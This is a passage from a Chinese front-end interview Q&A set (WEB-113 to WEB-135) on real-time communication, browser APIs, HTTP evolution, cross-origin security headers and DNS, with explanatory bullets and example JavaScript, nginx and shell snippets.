        proxy_set_header Upgrade $http_upgrade;               # 关键：透传升级头
        proxy_set_header Connection $connection_upgrade;
        proxy_read_timeout 300s;                              # 大于应用心跳间隔
        proxy_send_timeout 300s;
    }
}
```

### WEB-113：SSE 的 EventSource 怎么用？自定义重试与断点续传如何实现？
**答**：
- 服务端响应 `text/event-stream`，消息格式为 `event/data/id/retry` 字段，`\n\n` 分隔一条消息；data 可多行。
- `retry: 毫秒` 由服务端下发，浏览器断线后按它自动重连，比 WebSocket 的手写退避省心。
- 自动续传：重连时 EventSource 自动带上 `Last-Event-ID` 请求头（值为最后收到的 id），服务端据此从断点续发，天然防丢。
- 限制：只支持服务端单向推送、仅 GET、依赖 HTTP/1.1 时受浏览器 6 连接限制（HTTP/2 无此问题）。

```javascript
// Node 服务端
const http = require('http');
let seq = 0;
http.createServer((req, res) => {
  if (req.url === '/stream') {
    res.writeHead(200, {
      'Content-Type': 'text/event-stream',
      'Cache-Control': 'no-cache',
      'Connection': 'keep-alive',
    });
    const lastId = Number(req.headers['last-event-id'] || 0); // 断点续传起点
    seq = Math.max(seq, lastId);
    res.write('retry: 3000\n\n');                             // 断线后 3 秒重连
    const timer = setInterval(() => {
      res.write(`id: ${++seq}\nevent: msg\ndata: ${JSON.stringify({ seq, ts: Date.now() })}\n\n`);
    }, 1000);
    req.on('close', () => clearInterval(timer));
  }
}).listen(3000);

// 浏览器客户端
const es = new EventSource('/stream');
es.addEventListener('msg', (e) => console.log('收到', e.data, 'lastEventId', e.lastEventId));
es.onerror = () => console.log('连接断开，浏览器将按 retry 自动重连'); // 无需手写重连
```

### WEB-114：WebRTC DataChannel 的定位和基本用法是什么？
**答**：
- DataChannel 是 WebRTC 的数据通道：浏览器间 P2P 直连（经 STUN 打洞、TURN 中继兜底），延迟低于任何中转服务器方案。
- 通道可配置有序/无序、可靠（重传）或不可靠（maxRetransmits/maxPacketLifeTime）——游戏帧同步用不可靠低延迟，聊天用可靠有序。
- 建连需要信令：交换 SDP offer/answer 与 ICE candidate，通常走任意现成通道（WebSocket/HTTP）完成，信令服务器不参与数据面。
- 前端场景：多人游戏、P2P 文件传输、协同白板的低延迟通道。

```javascript
// 发起方
const pc = new RTCPeerConnection({ iceServers: [{ urls: 'stun:stun.l.google.com:19302' }] });
const dc = pc.createDataChannel('game', { ordered: false, maxRetransmits: 0 }); // 不可靠低延迟
dc.onopen = () => dc.send(JSON.stringify({ type: 'move', x: 10, y: 20 }));
dc.onmessage = (e) => console.log('对端数据', e.data);

// 信令交换：offer/answer 与 ICE 通过任意后端通道转发
const offer = await pc.createOffer();
await pc.setLocalDescription(offer);
signaling.send({ type: 'offer', sdp: offer }); // 发给对端

// 接收方
peerPc.ondatachannel = (e) => e.channel.onmessage = (m) => console.log(m.data);
await peerPc.setRemoteDescription(remoteOffer);
const answer = await peerPc.createAnswer();
await peerPc.setLocalDescription(answer);
signaling.send({ type: 'answer', sdp: answer });
// 双方互发 ICE candidate（pc.onicecandidate），打洞完成后通道打通
```

### WEB-115：长轮询的适用边界在哪里？
**答**：
- 机制：客户端发请求，服务端 hold 住到有数据或超时才返回，客户端立即再发下一个——用"挂着的 HTTP"模拟推送。
- 优点：兼容性无敌（HTTP/1.1 就够）、穿透所有代理防火墙；缺点：每次响应都重建完整请求开销、hold 连接占用服务端资源、多实例需要消息总线配合。
- 边界：老旧内网/兼容到 HTTP/1.0 的环境、极低频事件通知；有 WebSocket/SSE 条件时不应选长轮询。
- 实现要点：超时设置要小于代理超时；用游标（cursor/seq）防丢消息；失败退避防雪崩。

```javascript
// 前端：单个 while 循环即长轮询客户端
let cursor = 0;
async function longPoll() {
  while (true) {
    try {
      const res = await fetch(`/events?cursor=${cursor}`, {
        signal: AbortSignal.timeout(55000),   // 必须小于网关的空闲超时
      });
      const data = await res.json();
      cursor = data.cursor;                   // 游标防丢：服务端按序号续发
      data.events.forEach((ev) => console.log('event:', ev));
    } catch (e) {
      await new Promise((r) => setTimeout(r, 2000)); // 失败退避，防雪崩
    }
  }
}
longPoll();

// 服务端 hold：node 层面挂起直到有数据或 50 秒超时
// app.get('/events', (req, res) => {
//   const t = setTimeout(() => res.json({ events: [], cursor }), 50000);
//   bus.once('message', (m) => { clearTimeout(t); res.json({ events: [m], cursor: m.seq }); });
// });
```

## 二十、浏览器能力与 API

### WEB-116：IntersectionObserver 的参数怎么用？rootMargin 和 threshold 各控制什么？
**答**：
- `root`：交叉判定的参照容器，null 即视口；`rootMargin` 在参照框外扩/内收缩判定区，"200px" 提前 200px 触发，实现预加载。
- `threshold` 是交叉比例数组（0~1）：`[0]` 一进入就回调，`[0.5]` 一半可见时再回调，`[0, 0.5, 1]` 可做曝光深度打点。
- 回调是异步批量派发，不阻塞滚动；`entry.isIntersecting` 与 `intersectionRatio` 是主判定，首次 observe 必回调一次初始状态。
- 注意与 scroll 监听的本质区别：IO 由引擎在合成管线里判定，不进主线程逐帧循环，性能高一个量级。

```javascript
// 懒加载 + 曝光打点的标准配置
const io = new IntersectionObserver((entries) => {
  entries.forEach((en) => {
    if (!en.isIntersecting) return;
    if (en.target.dataset.src) {
      en.target.src = en.target.dataset.src;  // 进入判定区才加载
      io.unobserve(en.target);                // 一次性需求记得解除
    } else {
      track(`曝光 ratio=${en.intersectionRatio.toFixed(2)}`);
    }
  });
}, {
  root: null,               // 视口为参照
  rootMargin: '200px 0px 200px 0px', // 上下外扩 200px，提前预加载
  threshold: [0, 0.5, 1],   // 进入、半屏、全屏三个档位各回调一次
});
document.querySelectorAll('img[data-src], .exposure').forEach((el) => io.observe(el));
```

### WEB-117：ResizeObserver 与 window.resize 有什么区别？有哪些实践细节？
**答**：
- window.resize 只感知视口变化；ResizeObserver 监听任意元素的内容盒/边框盒尺寸，容器查询类需求（卡片内字号自适应）必须用它。
- `entry.contentRect`/`borderBoxSize` 提供新尺寸；observe 时立即回调一次初始尺寸，省掉手动初始化。
- 防循环：回调里改变被观察元素自身尺寸会再次触发，引擎会延迟到下一帧并在 error 事件报 ResizeObserver loop 警告——设计上避免自反馈即可。
- 对比监听动画帧轮询读 offsetWidth：RO 只在真实尺寸变化时触发，无空转成本。

```javascript
// 元素级响应：卡片宽度变化时同步排版参数
const ro = new ResizeObserver((entries) => {
  for (const en of entries) {
    const w = en.contentRect.width;
    en.target.style.fontSize = `${Math.max(12, Math.min(w / 20, 24))}px`;
    en.target.classList.toggle('compact', w < 320);
  }
});
document.querySelectorAll('.card').forEach((el) => ro.observe(el));

// 需要节流时用 requestAnimationFrame 合帧
let raf = 0;
const roThrottled = new ResizeObserver((entries) => {
  cancelAnimationFrame(raf);
  raf = requestAnimationFrame(() => apply(entries));
});
```

### WEB-118：PerformanceObserver 如何搭建统一的性能采集体系？
**答**：
- PerformanceObserver 统一订阅各指标条目类型：navigation/resource（网络）、paint（FP/FCP）、largest-contentful-paint、layout-shift（CLS）、longtask（主线程阻塞）、event（INP 相关）。
- `buffered: true` 回放观察者注册前已产生的条目——埋点 SDK 必开，否则早期指标丢失。
- 按需订阅避免全量收包：采集什么订阅什么；上报用 sendBeacon 在 pagehide 时一次性发送。
- longtask 归因：entry.attribution 里能看到容器类型，辅助定位是脚本还是渲染。

```javascript
// 统一采集核心 Web Vitals + 长任务
function report(name, value) {
  beacon.push({ name, value: Math.round(value), ts: Date.now() });
}
const beacon = [];
new PerformanceObserver((l) => l.getEntries().forEach((e) => report('LCP', e.startTime)))
  .observe({ type: 'largest-contentful-paint', buffered: true });
new PerformanceObserver((l) => l.getEntries().forEach((e) => report('CLS', e.value)))
  .observe({ type: 'layout-shift', buffered: true });
new PerformanceObserver((l) => l.getEntries().forEach((e) => report('longtask', e.duration)))
  .observe({ type: 'longtask', buffered: true });
new PerformanceObserver((l) => l.getEntries().forEach((e) => report('FCP', e.startTime)))
  .observe({ type: 'paint', buffered: true });

// 离开页面时一次性上报
window.addEventListener('pagehide', () => {
  navigator.sendBeacon('/perf', JSON.stringify(beacon)); // 不阻塞卸载且可靠
});
```

### WEB-119：BroadcastChannel 与 SharedWorker 各适合什么跨页通信场景？
**答**：
- BroadcastChannel：同源所有标签页广播，API 最简单，一收一发全异步；适合主题切换、登录态同步、多标签互踢。
- SharedWorker：一个工作线程被多个标签页共享，内部可维护状态与连接表，能实现"标签页计数、消息路由中心"；IE/部分老环境不支持，Safari 曾长期缺失。
- 兜底对比：storage 事件兼容性最好但语义绕（必须真的写 localStorage）；Service Worker postMessage 也能做中转。
- 三者都不跨源；跨源只能服务端中转。

```javascript
// BroadcastChannel：多标签页主题同步
const bc = new BroadcastChannel('app-sync');
bc.onmessage = (e) => {
  if (e.data.type === 'theme') applyTheme(e.data.value);
  if (e.data.type === 'logout') location.href = '/login'; // 一处退出处处退出
};
document.querySelector('#theme-btn').onclick = () => {
  const value = 'dark';
  applyTheme(value);
  bc.postMessage({ type: 'theme', value }); // 广播给其他标签页
};
```

```javascript
// shared.js —— SharedWorker：多标签页共享一个连接与状态
const ports = [];                    // worker 全局连接表：所有标签页的 MessagePort
let pages = 0;                       // worker 全局状态：标签页计数
onconnect = (e) => {
  const port = e.ports[0];
  ports.push(port);                  // 必须先登记，否则后续消息无处转发
  port.onmessage = (ev) => {
    pages++; // 占位示例：真实业务在此处理消息
    // 路由中心：一个标签页的消息转发给其余所有标签页
    ports.forEach((p) => { if (p !== port) p.postMessage(ev.data); });
  };
  port.postMessage({ type: 'count', pages });
  port.start();
};
```

```javascript
// main.js —— 每个标签页连一次
const worker = new SharedWorker('/shared.js');
worker.port.onmessage = (e) => console.log('来自共享 worker', e.data);
worker.port.postMessage({ type: 'ping' });
worker.port.start();
```

### WEB-120：storage 事件怎么做跨页同步？它的触发条件是什么？
**答**：
- `storage` 事件只在"其他同源标签页修改了 localStorage/sessionStorage"时触发，本页自己的写入不触发——这是它做同步的天然语义。
- 回调带 key/oldValue/newValue/url 与 storageArea；写相同值不触发（值必须变化）。
- 用途：主题/语言偏好同步、购物车跨标签更新；配合版本号字段可做简易"多标签配置热更"。
- 局限：只通知不保证顺序，复杂协调用 BroadcastChannel 或 SharedWorker。

```javascript
// 标签页 A：写偏好
document.querySelector('#theme').onchange = (e) => {
  localStorage.setItem('theme', e.target.value); // 触发其他页的 storage 事件
};

// 标签页 B/C：被动接收
window.addEventListener('storage', (e) => {
  if (e.key === 'theme' && e.newValue) {
    document.documentElement.dataset.theme = e.newValue;
    console.log(`由页面 ${e.url} 同步了主题`);
  }
  if (e.key === 'cart-version' && e.newValue) refreshCart(); // 触发数据刷新
});
```

### WEB-121：Notification 与 Push 的完整链路是什么？
**答**：
- 链路：用户授权 Notification.requestPermission → SW 注册 → pushManager.subscribe 拿到 endpoint（带 VAPID 公钥）→ 服务端向该 endpoint 发加密推送 → SW 收 push 事件 → showNotification 展示，点击可聚焦/打开页面。
- 关键约束：推送必须经过 Service Worker（页面关闭也能送达）；`userVisibleOnly: true` 强制每条推送都要有可见通知，防静默骚扰。
- VAPID 是自签名的服务器身份，避免依赖各家厂商后台；endpoint 送达依赖浏览器厂商的推送服务（FCM/APNs 系）。
- 权限被拒后 requestPermission 不再弹窗，只能在设置里恢复——授权时机放用户主动点击处。

```javascript
// 前端完整链路
const permission = await Notification.requestPermission(); // 1. 授权（放用户手势里）
if (permission !== 'granted') return;
const reg = await navigator.serviceWorker.register('/sw.js');
const sub = await reg.pushManager.subscribe({               // 2. 订阅拿 endpoint
  userVisibleOnly: true,
  applicationServerKey: urlBase64ToUint8(VAPID_PUBLIC_KEY), // 3. VAPID 公钥
});
await fetch('/api/push-subscribe', {                        // 4. endpoint 交给服务端
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify(sub),
});
```

```javascript
// sw.js —— 服务端推送到达与点击处理
self.addEventListener('push', (e) => {
  const data = e.data.json();
  e.waitUntil(self.registration.showNotification(data.title, {
    body: data.body, icon: '/icon.png', tag: 'msg', // tag 合并同类通知
    data: { url: '/inbox' },
  }));
});
self.addEventListener('notificationclick', (e) => {
  e.notification.close();
  e.waitUntil(clients.openWindow(e.notification.data.url));
});
```

### WEB-122：剪贴板异步 API 与老 execCommand 差在哪？权限如何处理？
**答**：
- `navigator.clipboard` 是异步 Promise API，支持文本与自定义格式（ClipboardItem 可写图片），是替代 execCommand('copy') 的标准方案。
- 前置条件：仅安全上下文（HTTPS/localhost）、写入通常需用户手势，readText 额外要权限授予且浏览器会弹授权条。
- 粘贴事件侧：paste 事件里 `e.clipboardData` 可拦截处理富文本，二者配合覆盖绝大多数需求。
- execCommand 已废弃但兼容老浏览器，作为 fallback 保留。

```javascript
async function copyCode(text) {
  try {
    await navigator.clipboard.writeText(text);          // 标准路径：HTTPS + 用户手势
  } catch {
    // fallback：隐藏 textarea + execCommand（老浏览器）
    const ta = document.createElement('textarea');
    ta.value = text;
    ta.style.position = 'fixed';
    ta.style.opacity = '0';
    document.body.appendChild(ta);
    ta.select();
    document.execCommand('copy');
    ta.remove();
  }
}
button.addEventListener('click', () => copyCode(code)); // 必须挂在用户手势上

// 读取剪贴板：需权限授权
navigator.clipboard.readText().then((t) => console.log('剪贴板内容', t));
```

### WEB-123：全屏、屏幕方向锁与屏幕唤醒锁的 API 细节是什么？
**答**：
- 全屏：`element.requestFullscreen()` 必须由用户手势触发，配合 `fullscreenchange` 事件同步 UI；document.exitFullscreen() 退出。
- 方向锁：`screen.orientation.lock('landscape')` 只有在全屏状态下才允许（移动端）。
- 唤醒锁：`navigator.wakeLock.request('screen')` 防止息屏，仅页面可见时可申请；切后台自动释放，回前台要重新申请——监听 visibilitychange 重取。
- 三个 API 都是用户意图驱动 + 权限管控的现代能力，滥用（保活、强制横屏）会在审核和体验上付出代价。

```javascript
// 视频页三件套：全屏 + 横屏 + 防息屏
const video = document.querySelector('video');
let wakeLock = null;

btn.onclick = async () => {                       // 用户手势内
  await video.requestFullscreen();                // 1. 全屏
  try { await screen.orientation.lock('landscape'); } catch {} // 2. 横屏（需先全屏）
  try { wakeLock = await navigator.wakeLock.request('screen'); } catch {} // 3. 防息屏
};

// 切后台唤醒锁自动释放，回前台重新申请
document.addEventListener('visibilitychange', async () => {
  if (document.visibilityState === 'visible' && wakeLock) {
    wakeLock = await navigator.wakeLock.request('screen');
  }
});
document.addEventListener('fullscreenchange', () => {
  if (!document.fullscreenElement) screen.orientation.unlock();
});
```

## 二十一、综合与演化

### WEB-124：从输入 URL 到页面渲染的完整 30 步流程，能逐步讲清吗？
**答**：
- 网络段（1-12）：URL 解析补协议 → 缓存查找（memory/disk）→ HSTS 判定 → DNS 缓存递归解析 → TCP 三次握手 → TLS 握手（1.3 一 RTT）→ 构造请求头（Cookie/Accept-Encoding/Sec-Fetch）→ 发送 → 代理/CDN 边缘节点 → 负载均衡到源站 → 服务端处理 → 响应返回（含缓存头与状态码）。
- 渲染段（13-24）：网络栈判缓存 → 移交渲染进程 → HTML 解析建 DOM → 遇 CSS 建 CSSOM → 同步 JS 阻塞解析 → DOM/CSSOM 合成样式树 → Layout 布局树 → 分层 → Paint 记录绘制指令 → 光栅化 → 合成器合成图层。
- 交互段（25-30）：GPU 上屏首帧 → FCP/LCP 采集 → 注册事件监听 → 事件循环处理任务与宏微任务 → 滚动/动画走合成器 → 持续的请求与实时通信维持页面活性。
- 收束话术：每一段都能下钻——网络段可考握手与缓存，渲染段可考关键路径，交互段可考事件循环。



```javascript
// 用 PerformanceNavigationTiming 把整条链路映射成数据
const n = performance.getEntriesByType('navigation')[0];
const steps = {
  '1-DNS': n.domainLookupEnd - n.domainLookupStart,
  '2-TCP': n.connectEnd - n.connectStart,
  '3-TLS': n.secureConnectionStart ? n.connectEnd - n.secureConnectionStart : 0,
  '4-请求与响应': n.responseEnd - n.requestStart,
  '5-HTML 下载': n.responseEnd - n.responseStart,
  '6-DOM 解析': n.domInteractive - n.responseEnd,
  '7-DOMContentLoaded': n.domContentLoadedEventStart,
  '8-完全加载': n.loadEventStart,
};
Object.entries(steps).forEach(([k, v]) => console.log(k, `${Math.round(v)}ms`));
```

### WEB-125：HTTP/1.1、HTTP/2、HTTP/3 各自解决了什么、又引入了什么新问题？
**答**：
- 1.1：文本协议、keep-alive 复用连接、Host/缓存协商成熟；遗留队头阻塞与 6 连接限制，前端靠域名分片、雪碧图硬扛。
- 2：二进制分帧 + 多路复用解决应用层队头阻塞，头部压缩 HPACK 与流优先级提升效率；但 TCP 层队头阻塞仍在——一个包丢全连接等待，复用越狠受害面越大。
- 3：QUIC 把传输搬到 UDP，流间独立丢包恢复消除传输层队头阻塞，握手 1-RTT/0-RTT，连接迁移（换网不断连）；代价是 UDP 被限速/拦截的网络要回退、CPU 加解密成本更高。
- 面试收束：协议演化主线是"消灭排队"——从连接排队（1.1）到流排队（2）到无排队（3），每代都换了排队发生的位置。

```nginx
# 同一台 nginx 同时提供 HTTP/1.1 / 2 / 3 服务
server {
    listen 443 ssl;
    http2 on;                 # HTTP/2 over TLS
    listen 443 quic reuseport;# HTTP/3 over QUIC
    ssl_protocols TLSv1.2 TLSv1.3;

    add_header Alt-Svc 'h3=":443"; ma=86400';  # 告知浏览器可用 h3，下次请求升级
    # 客户端首次仍走 h2，拿到 Alt-Svc 后尝试 QUIC
    # QUIC 被网络拦截时浏览器自动回退 h2，业务无感
}
```

### WEB-126：同源策略演化出了 COOP/COEP/CORP，它们各管什么？
**答**：
- COOP（跨源打开者策略）：`same-origin` 让 window.open 打开的跨源页面失去 opener 引用，断开跨源窗口间的 JS 访问，防 XS-Leaks 与 opener 攻击。
- CORP（跨源资源策略）：资源声明"谁能以 no-cors 方式嵌入我"——`same-origin/same-site/cross-origin`，是站点对自己子资源的嵌入授权。
- COEP（跨源嵌入者策略）：`require-corp` 要求页面嵌入的每个跨源资源要么带 CORS 授权、要么带 CORP 允许，否则不加载——以此换取页面进入"跨源隔离"状态。
- 隔离的回报：启用 COOP+COEP 后可使用 SharedArrayBuffer、高精度计时等强能力；代价是所有第三方资源（广告、统计、字体）都要配合加头。

```http
# 站点 A 启用跨源隔离
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp

# 第三方资源站点必须配合声明，否则在 A 页面里加载失败
Cross-Origin-Resource-Policy: cross-origin

# 效果验证：启用后以下能力解锁
# const sab = new SharedArrayBuffer(1024);          // 否则抛异常
# performance.measureUserAgentSpecificMemory();     // 精确内存测量
# window.open 的跨源页拿不到 opener 引用，隔离成独立浏览上下文
```

### WEB-127：Fetch Metadata 请求头（Sec-Fetch-*）如何用于请求隔离？
**答**：
- 浏览器自动附带只读头：`Sec-Fetch-Site`（none/same-origin/same-site/cross-site，谁发起的）、`Sec-Fetch-Mode`（navigate/cors/no-cors 等）、`Sec-Fetch-Dest`（目标上下文 document/script/img 等）、`Sec-Fetch-User`。
- 价值：服务端第一次能"零成本"判断请求的真实语境，替代易被伪造的 Referer/Origin 组合判断，防 CSRF、防资源热链、防跨站表单攻击。
- 典型策略：`cross-site + navigate` 的 POST 拒绝（CSRF）；`Dest: document` 且 `Site: cross-site` 的嵌套请求拒绝（防嵌入）。
- 注意：Sec-Fetch-* 由浏览器强制，JS 无法伪造；非浏览器客户端没有这些头，需另行认证。

```javascript
// Node/Express 中间件：基于 Fetch Metadata 的资源隔离
app.use((req, res, next) => {
  const site = req.headers['sec-fetch-site'];   // none | same-origin | same-site | cross-site
  const mode = req.headers['sec-fetch-mode'];   // navigate | cors | no-cors ...
  const dest = req.headers['sec-fetch-dest'];   // document | script | image ...

  if (req.method === 'POST' && site === 'cross-site') {
    return res.status(403).end('CSRF 防护：拒绝跨站 POST');     // 1. 防 CSRF
  }
  if (dest === 'document' && site === 'cross-site') {
    return res.status(403).end('禁止被跨站 iframe 嵌套');        // 2. 防点击劫持
  }
  if (mode === 'no-cors' && dest !== 'image') {
    return res.status(403).end('禁止 no-cors 窃取数据');         // 3. 防侧信道
  }
  next();
});
```

### WEB-128：Web Bundles 是什么概念？解决什么分发问题？
**答**：
- Web Bundles（.wbn）把一个站点的 HTML/CSS/JS/图片打包成单个二进制文件，内含资源清单与完整内容，可离线分发或离线打开。
- 场景：弱网/无网区域整站分发（P2P、U 盘、邮件）、内容可离线自校验（bundle 内签名证明出处）、微前端把子应用作为 bundle 交付。
- 与 SW 预缓存的区别：SW 缓存依赖首次在线访问，bundle 天生完整可离线且自带完整性声明。
- 现状：Chrome 有实验性支持（webbundle/wbn 格式），尚未成为普适标准，面试按概念与动机答即可。

```bash
# 用 webbundle CLI 工具打包静态站点
# npm i -g wbn（gen-bundle 命令）
gen-bundle \
  -url https://app.example.com/ \   # 主 URL，作为 bundle 的入口标识
  -dir ./dist \                     # 构建产物目录整体打入
  -primaryURL https://app.example.com/ \
  -o app.wbn

# 校验与预览
# Chrome 启动参数：--enable-blink-features=WebBundles
# 打开 file:///path/to/app.wbn 即可离线浏览整站
ls -lh app.wbn   # 单文件包含整站，可任意渠道分发
```

### WEB-129：OffscreenCanvas 与后台渲染怎么理解？
**答**：
- `canvas.transferControlToOffscreen()` 把画布控制权交给 Worker：绘制逻辑在 Worker 线程跑，主线程只负责展示——重绘动画不再挤占主线程。
- OffscreenCanvas 在 Worker 中可用完整 2D/WebGL 上下文，配合 `requestAnimationFrame`（Worker 中也可用）实现主线程繁忙时动画不掉帧。
- 更广的"后台渲染"还包括 Service Worker 里的图片处理、Web Worker 池做像素级计算，共性是"渲染/计算与交互线程解耦"。
- 注意：控制权转移后主线程不能再 getContext 该画布；Safari 对 OffscreenCanvas 的支持成熟度需检查。

```javascript
// main.js：画布控制权转移给 Worker
const canvas = document.querySelector('canvas');
const offscreen = canvas.transferControlToOffscreen(); // 控制权一次性转移
const worker = new Worker('/render-worker.js');
worker.postMessage({ canvas: offscreen, dpr: devicePixelRatio }, [offscreen]); // 转移所有权

// render-worker.js：在 Worker 线程持续渲染，主线程卡顿也不掉帧
self.onmessage = (e) => {
  const { canvas: c, dpr } = e.data;
  c.width = c.width * dpr;
  const ctx = c.getContext('2d');
  ctx.scale(dpr, dpr);
  let t = 0;
  const draw = () => {
    t += 0.02;
    ctx.clearRect(0, 0, 300, 150);
    ctx.beginPath();
    ctx.arc(150, 75, 40 + Math.sin(t) * 10, 0, Math.PI * 2);
    ctx.fill();
    setTimeout(draw, 16); // Worker 中绘制循环
  };
  draw();
};
```

### WEB-130：WebGPU 与 WebTransport 代表怎样的未来方向？
**答**：
- WebGPU：替代 WebGL 的下一代图形/计算 API，映射到 Vulkan/Metal/D3D12，暴露计算着色器（GPU 通用计算），前端可做端侧推理与大规模并行处理。
- WebTransport：基于 QUIC 的客户端-服务器传输，同一连接里同时提供可靠流（streams）与不可载数据报（datagrams），规避 TCP 队头阻塞，填补 WebSocket（只可靠有序）与裸 UDP 之间的空白。
- 组合想象：云游戏（WebTransport 传帧 + WebGPU 渲染）、实时协作（datagrams 传光标/低可靠状态）。
- 现状：WebGPU 已在主流 Chromium 与新版 Safari 落地；WebTransport 在 Chromium 可用，生态仍在演进。

```javascript
// WebGPU：申请适配器与设备，走计算管线
const adapter = await navigator.gpu.requestAdapter();
const device = await adapter.requestDevice();
const module = device.createShaderModule({
  code: `
    @compute @workgroup_size(64)
    fn main(@builtin(global_invocation_id) id: vec3u) {
      // 并行计算任务写在这里
    }`,
});
device.createComputePipeline({ layout: 'auto', compute: { module, entryPoint: 'main' } });

// WebTransport：可靠流与不可靠数据报共用一条 QUIC 连接
const wt = new WebTransport('https://transport.example.com:4433');
await wt.ready;
// 不可靠低延迟：游戏状态、实时光标
const dg = wt.datagrams.writable.getWriter();
dg.write(new TextEncoder().encode(JSON.stringify({ t: 'cursor', x: 1, y: 2 })));
// 可靠有序：聊天消息、配置下发
const stream = await wt.createSendStream();
const sw = stream.getWriter();
sw.write(new TextEncoder().encode('reliable message'));
```

## 二十二、DNS 深入

### WEB-131：递归查询和迭代查询的区别是什么？一次解析里谁在递归、谁在迭代？
**答**：
- 递归：客户端把解析责任"打包"给服务器，服务器必须最终给出答案（或明确失败），客户端只等结果。
- 迭代：本地 DNS 向根、顶级域、权威服务器逐级"问路"，每一级只告诉你"下一步去问谁"，不代劳。
- 浏览器到本地 DNS（运营商或公共 DNS）通常是递归；本地 DNS 到层级服务器是迭代。
- 前端感知：浏览器报 DNS_PROBE_FINISHED 时是递归链路断了；用 dig +trace 可模拟一遍迭代路径。
- 缓存命中时整条链路被短路，TTL 内的请求连根服务器都碰不到。



```bash
# 默认模式：向系统配置的 DNS 发起递归查询，flags 里的 rd 表示期望递归、ra 表示服务器支持递归
dig +noall +comments www.example.com | grep flags
# 输出示例 flags: qr rd ra，说明这是一次支持递归的查询
# +trace 手工走一遍迭代链路：从根域逐级打印 NS，直到权威服务器给出 A 记录
dig +trace +nodnssec +noall +answer www.example.com
# 指定公共递归解析器对比解析结果与耗时
dig @223.5.5.5 www.example.com +stats | grep 'Query time'
```

### WEB-132：常见 DNS 记录类型 A、AAAA、CNAME、NS、TXT 各自的用途是什么？
**答**：
- A / AAAA：域名到 IPv4 / IPv6 地址，业务流量最终都落在这两类记录上。
- CNAME：别名指向另一个域名，CDN 接入就是给域名加一条 CNAME 指到调度域名。
- NS：声明"这个区域由哪些权威服务器解析"，子域委托和云厂商切换全靠它。
- TXT：任意文本，常用于 SPF/DKIM 邮件反垃圾、各大平台的域名归属验证串就放在 TXT。
- 工程要点：CNAME 链会多一次查询，关键域名建议直接 A/AAAA；MX、SRV、CAA 等按需了解。

```bash
dig +short www.example.com A        # A 记录，直接给出 IPv4
dig +short www.example.com AAAA     # AAAA 记录，IPv6
dig +short cdn.example.com CNAME    # CNAME，别名链，CDN 场景常见多层
dig +short example.com NS           # NS，区域的权威服务器
dig +short example.com TXT          # TXT，SPF 与站点验证串都在这里
dig +short example.com MX           # 顺带，邮件交换记录
```

### WEB-133：DNS 缓存分哪几层？TTL 怎么影响故障切换速度？
**答**：
- 层级：浏览器进程内缓存 → 系统 resolver 缓存（/etc/hosts 优先级更高）→ 本地递归 DNS → 权威 DNS。
- TTL 决定每层"记多久"：TTL 越长命中率越高，但故障切换要等旧记录自然过期。
- 迁移与容灾 SOP：提前把 TTL 降到 60 秒 → 等旧值过期 → 切流量 → 稳定后再调回长 TTL。
- 浏览器有独立的 DNS 缓存与连接池（chrome://net-internals/#dns 可看可清）。
- 注意：某些递归服务器会最小化或"钉住" TTL，客户端拿到的值不一定等于权威配置值。

```bash
# 连续两次查询同一个递归 DNS，观察 TTL 递减，说明命中了本地解析器缓存
dig +noall +answer api.example.com
sleep 5
dig +noall +answer api.example.com
# 直接问权威服务器，TTL 应该是配置的原始值
dig @ns1.example.com api.example.com +noall +answer
# macOS 清系统 DNS 缓存
sudo dscacheutil -flushcache; sudo killall -HUP mDNSResponder
```

### WEB-134：DNS 预解析和域名的收敛/分散怎么权衡？
**答**：
- HTTP/1.1 时代同域 6 连接限制，工程上把静态资源散到多个子域（domain sharding）换并发；代价是多次 DNS、多次 TLS，Cookie 也跟着域名走。
- HTTP/2/3 单连接多路复用，域名应收敛：散域名反而破坏连接复用，还会拖慢握手。
- `dns-prefetch` 只提前解析；`preconnect` 把 DNS+TCP+TLS 都提前做完，用于关键第三方域。
- 预解析对不可控第三方域收益最大（统计、CDN、字体）；自家主域浏览器一般会提前解析。
- Cookie 瘦身也属域名规划：静态域用独立裸域，不带业务 Cookie。

```html
<!-- 关键第三方域做完整预连接，用户点击前完成 DNS 加 TCP 加 TLS -->
<link rel="preconnect" href="https://cdn.example.com" crossorigin>
<!-- 次要域只做 DNS 预解析，几乎零成本 -->
<link rel="dns-prefetch" href="//img.example.com">
<!-- HTTP/2 时代建议：主站与 API 收敛到同一域名，去掉无意义的散子域 -->
<script src="https://app.example.com/static/app.js"></script>
```

### WEB-135：HTTPDNS 是什么？它解决运营商 DNS 的哪些问题？
**答**：
